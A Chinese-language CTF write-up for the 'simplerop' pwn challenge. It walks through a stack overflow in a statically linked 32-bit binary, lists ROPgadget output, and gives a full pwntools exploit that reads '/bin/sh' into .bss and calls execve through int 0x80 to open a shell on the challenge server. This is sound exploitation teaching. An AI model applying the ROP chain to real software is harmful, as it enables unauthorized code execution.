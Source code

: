 ```yaml
---
layout: post
title:  simplerop
date:   2022-09-26 00:08:01 +0300
image:  2022-09-26-cat.jpg
tags:   [ctf,pwn,ubuntu16,ROP,cmcc]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h] BYREF

  puts((int)"ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 0x64);
}
```

 栈溢出，但是这个文件是静态编译的，不能使用像之前泄露got表那样的方法

可以发现存在`int 80`，这么一来，可以执行系统调用了。

```assembly
ROPgadget --binary simplerop --only "int|80"
Gadgets information
============================================================
0x080493e1 : int 0x80

Unique gadgets found: 1
```

因为系统调用，需要我们执行这样的命令：`int80(11,"/bin/sh",null,null)`

|  NR  | syscall name |                          references                          | %eax |     arg0 (%ebx)      |       arg1 (%ecx)       |       arg2 (%edx)       | arg3 (%esi) | arg4 (%edi) | arg5 (%ebp) |
| :--: | :----------: | :----------------------------------------------------------: | :--: | :------------------: | :---------------------: | :---------------------: | :---------: | :---------: | :---------: |
|  3   |     read     | [man/](https://man7.org/linux/man-pages/man2/read.2.html) [cs/](https://source.chromium.org/search?ss=chromiumos&q=SYSCALL_DEFINE.*read) | 0x03 |   unsigned int fd    |        char *buf        |      size_t count       |      -      |      -      |      -      |
|  11  |    execve    | [man/](https://man7.org/linux/man-pages/man2/execve.2.html) [cs/](https://source.chromium.org/search?ss=chromiumos&q=SYSCALL_DEFINE.*execve) | 0x0b | const char *filename | const char *const *argv | const char *const *envp |      -      |      -      |      -      |

这道题目没有给出字符串，需要我们自己输入，这道题没有开启pie，可以考虑用`read()`将`/bin/sh`写入到bss段中。

```assembly
ROPgadget --binary simplerop --only "pop|ret" | grep eax
0x0809da8a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bae06 : pop eax ; ret
0x08071e3a : pop eax ; ret 0x80e
0x0809da89 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

ROPgadget --binary simplerop --only "pop|ret" | grep ebx | grep ecx
0x0806e851 : pop ecx ; pop ebx ; ret
0x0806e850 : pop edx ; pop ecx ; pop ebx ; ret
```

IDA中给出的距离ebp的地址是`0x14`，用gdb调试了下才发现距离是`0x1c`

exp

```assembly
from pwn import *

io = remote("node4.buuoj.cn", 27372)

elf = ELF("./simplerop")

int80 = 0x080493e1
pop_eax = 0x80bae06
read_addr = 0x0806CD50
bss = 0x080EB584
pop_edx_ecx_ebx = 0x0806e850

payload = b'M'*(0x1c+4) + p32(read_addr) + p32(pop_edx_ecx_ebx) + p32(0) + p32(bss) + p32(0x8)  # read函数的返回地址用三个pop代替，正好将read函数的三个参数弹出栈，这样就可以执行下面的系统调用了
payload += p32(pop_eax) + p32(0xb)
payload += p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(bss) + p32(int80)

# io.recvuntil("Your input :")
io.sendline(payload)
io.sendline('/bin/sh\x00')

io.interactive()
```

